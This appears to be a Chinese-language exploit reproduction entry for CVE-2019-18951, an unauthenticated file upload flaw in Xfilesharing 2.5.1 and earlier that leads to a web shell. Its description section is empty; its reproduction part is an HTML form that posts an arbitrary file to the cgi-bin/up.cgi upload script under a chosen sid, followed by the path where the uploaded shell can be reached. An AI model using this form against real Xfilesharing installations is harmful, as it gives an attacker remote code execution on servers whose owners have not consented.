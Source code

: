 （CVE-2019-18951）Xfilesharing 2.5.1本地文件上传getshell
========================================================

一、漏洞简介
------------

二、漏洞影响
------------

Version: \<=2.5.1

三、复现过程
------------

### 任意文件上传

    <form action="http://0-sec.org/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
        <input type="text" name="sid" value="joe">
        <input type="file" name="file">
        <input type="submit" value="Upload" name="submit">
    </form>

Shell : http://0-sec.org/cgi-bin/temp/joe/she
